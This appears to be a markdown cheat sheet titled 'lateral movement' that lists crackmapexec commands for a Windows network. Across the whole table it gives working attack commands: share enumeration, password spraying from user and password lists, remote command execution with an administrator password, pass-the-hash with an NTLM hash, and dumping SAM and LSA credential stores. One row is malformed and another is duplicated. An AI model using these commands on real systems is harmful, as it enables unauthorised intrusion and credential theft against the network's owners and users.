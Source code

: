 ### lateral movement
| ------------- |
| for Example |
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam |
|crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa |
